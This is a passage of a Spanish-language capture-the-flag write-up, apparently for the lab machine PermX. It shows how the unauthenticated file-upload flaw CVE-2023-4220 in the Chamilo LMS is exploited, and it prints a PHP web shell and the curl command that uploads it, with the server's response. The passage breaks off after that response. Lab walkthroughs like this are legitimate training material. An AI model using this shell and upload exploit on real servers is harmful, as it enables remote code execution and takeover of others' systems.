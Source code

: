 Dentro de él, solo encontraremos esta página de inicio de sesión

![Login](/assets/writeups/permx/2.png)

Evidentemente esto nos dice que se está utilizando el LMS conocido como Chamilo, del cual podemos buscar vulnerabilidades.

Una interesante que encontraremos es la catalogada como `CVE-2023-4220`, que nos permite abusar de la funcionalidad de subida de archivos grandes para subir archivos con extensión PHP y obtener un RCE sin autenticación alguna...

Bien, el primer requisito para explotar esto es que la carpeta `files` exista en el directorio `/main/inc/lib/javascript/bigupload/` del servidor, que si existe y podemos comprobarlo simplemente colocando esa ruta en el navegador y viendo las rutas que nos muestra el indexado de directorios de Apache. Ahora necesitaremos un archivo PHP para subir, yo usaré este:

```php
<?php
  echo system($_GET['uwu']);
?>
```

Haciéndole una petición POST ahora al archivo `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` con el parámetro url `action` puesto en `post-unsupported` y nuestro archivo en los datos de la petición en el formato [form-data](https://reqbin.com/req/c-sma2qrvp/curl-post-form-example) dentro del campo `bigUploadFile`, nos dirá que el archivo se ha subido correctamente.

```bash
❯ curl -v -F "bigUploadFile=@test.php" "http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported"
* Host lms.permx.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.23
*   Trying 10.10.11.23:80...
* Connected to lms.permx.htb () port 80
> POST /main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported HTTP/1.1
> Host: lms.permx.htb
> User-Agent: curl/8.10.0
> Accept: */*
> Content-Length: 259
> Content-Type: multipart/form-data; boundary=------------------------zjjWfku77d5YxQDJRShYti
> 
* upload completely sent off: 259 bytes
< HTTP/1.1 200 OK
< Date: Fri, 01 Nov 2024 23:14:49 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Set-Cookie: ch_sid=i8j4vo9t94oi8kr9o9ik8356bm; path=/; HttpOnly
```